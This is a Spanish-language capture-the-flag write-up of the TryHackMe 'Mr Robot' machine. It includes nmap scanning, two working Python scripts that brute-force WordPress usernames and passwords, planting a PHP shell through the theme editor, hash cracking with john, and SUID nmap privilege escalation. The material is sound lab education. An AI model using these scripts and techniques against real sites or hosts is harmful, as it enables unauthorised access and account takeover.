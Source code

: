 ```yaml
---
title: "Mr Robot - Try Hack Me"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/THM/MrRobot/data/mrrobot.png"
  teaser_home_page: true
  icon: "assets/images/icons/TryHackMe.png"
categories:
  - Writeup
  - TryHackMe
tags:
  - SUID
  - Wordpress
  - Python
  - BruteForce
---
```


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/data/MR-ROBOT.jpg">
  </p>

  La máquina **MrRobot** es una máquina virtual vulnerable de la plataforma **Try Hack Me** con un nivel de dificultad **medio**  desarrollada por **DarkStar7471** y publicada **24 de Septiembre del 2020** con un sistema operativo **Linux**.

## Port Scan

  Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.197.4]** utilizando los parámetros:

  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **80 y 443**:  

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/Ports.png">
  </p>


  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/PortServ.png">
  </p>

  Lo que **nmap** nos muestra es que hay un servicio **HTTP** en el puerto **80** y un servicio **HTTPS** en el puerto **443**.

  Cuando entre al servicio **HTTP** desde mi navegador pude ver lo siguiente:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/443.png">
  </p>

  Haciendo **fuzzing** podemos ver que cuenta con un recurso **robots.txt** y un **wp-login**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/fuzzing.png">
  </p>

  Primero iremos por el robots.txt, al entrar se pudieron ver el directorio **key-1-of-3.txt** y un recurso **fsocity.dic** el cual puedo descargar a mi maquina:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/robots.png">
  </p>

  Viendo el contenido de **fsocity.dic** puedo ver que es un diccionario con **858160** lineas:

  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/dic1.png">
  <div class="caption" ></div></center></td>
  <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/THM/MrRobot/scan/dic2.png">
  <div class="caption"></div></center></td>
  </tr></table>
  </div>

## Lateral Movement
  Ya sabiendo esto me dirijo al la ruta **wp-login** ahí veo que es un login de wordpress, en algunas ocasiones los logins de wordpress te permiten enumerar usuarios ya que si ponemos uno valido nos saldría un mensaje diciendo '**ERROR: The password you entered for the username Winsad is incorrect. Lost your password?**' por ejemplo.

  Para esto y ya que no conocemos los usuarios usaremos el diccionario para hacer un ataque de fuerza bruta, para este ataque hare un script personalizado en python el cual es el siguiente:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *


url = 'http://[IP Machine]/wp-login.php'

s = requests.Session()
print ''
p1 = log.progress("Fuzzeando usuario")
time.sleep(3)
p1.status("Iniciando Fuzzing")
time.sleep(3)

with open('fsocity.dic', 'r') as f:
	for i in f:

		data = {'log' : i,
			'pwd' : 'contra'
			}

		r = s.post(url, data)
		p1.status('Probando %s' % i.strip('\n'))

		if "Invalid username." not in r.text:
			p1.success('Usuario el usuario %s valido ' % i.strip('\n'))
			break
  ```

  Con el script que me acabo de desarrollar lo que hace es hacer un loggeo y comparar la respuesta por parte del servidor enviando un usuario y una contraseña cualquiera, si en ella se encuentra la cadena **"Invalid username."** significa que el usuario es valido gracias a esto pude descubrir que el usuario **Elliot** es un usuario valido:

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/fuzzU.png?raw=true">
  </p>

  Ahora que tenemos el usuario haremos una fuerza bruta a la password del usuario **Elliot**, para esto adaptaremos un poco el script para que ahora itere sobre la password y no el usuario:

  ```python
#!/usr/bin/python

import requests, time
from pwn import *

url = 'http://[Ip Machine]/wp-login.php'
user = 'Elliot'
s = requests.Session()

print ''

p1 = log.progress('Fuzzeando password')
time.sleep(2)
p1.status('Iniciando Fuzzing')
time.sleep(3)

with open('smallwordlist', 'r') as f:

	for i in f:

		data  = {
			'log' : user,
			'pwd' : i
 		}

		r = s.post(url, data)
		p1.status('Probando password %s' % i.strip('\n'))

		if 'The password you entered for the username ' not in r.text:

			p1.success('La passwor de Elliot es %s' % i.strip('\n'))
			break

  ```
  Yo acote el diccionario ya que eran demasiadas lineas, la contraseña se encontraba en la linea **5627:ER28-0652**, seria un gran punto si le metiéramos hilos pero en esta ocasión no lo hare yo.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/fuzzP.png?raw=true">
  </p>

  Ya que encontramos el usuario y la passwod vamos al login de wordpress y ingresamos con las credenciales encontradas.

  Dentro de una cuenta con permisos de administrador en wordpress es muy fácil darnos una shell los pasos serian:
  - Entrar a Appearence y en edit.
  - Editar el archivo **archive.php** e ingresar la shell en php en el archivo.
  - Ponernos en escuchar por el puerto especificado en el **archive.php**.
  - Entrar a la url **https://[IP Machine]/wp-content/themes/twentyfifteen/archive.php**.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/paginaApparence.png?raw=true">
  </p>

  Ya una vez que hicimos los pasos y entramos a la url especificada podemos ver que nos da la conexión en nuestra maquina.

  Una vez dentro nos dirigimos a la rutar **/home/robot** y vemos que se encuentra la segunda flag y aparte un archivo **password.raw-md5**

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/shell.png?raw=true">
  </p>


  Si en la maquina victima hacemos un **cat password.raw-md5 \| base64** al archivo y el output que no sales le hacemos un **echo '[output]' \| base64 -d >> hash** en nuestra maquina tenemos el mismo archivo ya en nuestra maquina y así podemos usar la herramienta de john para poder romper el hash:

  <div align="center">
  <table class="center"><tr>
  <td><center><img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/hash1.png?raw=true">
  <div class="caption" >Maquina visctima.</div></center></td>
  <td><center><img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/hash2.png?raw=true">
  <div class="caption">Maquina del atacante.</div></center></td>
  </tr></table>
  </div>

  Con el hash en nuestra maquina usamos la herramienta de john con el diccionario de **Rockyou** para ver si podemos romper el hash que esta en **md5**

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/crack.png?raw=true">
  </p>

  Ahora que tenemos el password lo usamos para entrar como el usuario **robot**:

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/robot.png?raw=true">
  </p>

## Privilege escalation

  Para seguir poder buscar el camino a convertirnos en **root** enumeramos el sistema para ver como poder escalar privilegios.

  Usamos el comando ```find / -perm -4000 2>/dev/null``` para poder encontrar algún binario **SUID**.

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/nmap.png?raw=true">
  </p>

  Ejecutando este comando vemos que hay un uno el cual es **/usr/local/bin/nmap**, si buscamos en la pagina **[GTFOBINS](https://gtfobins.github.io)** el binario nmap podemos ver que cuenta con una forma para spawnearnos la shell si es **SUID**

  ```bash
  nmap --interactive
  nmap> !sh
  ```
  Haciendo esto podemos ya entrar al directorio root y visualizar la ultima flag:

  <p align="center">
  <img src="https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/THM/MrRobot/instrusion/root.png?raw=true">
  </p>
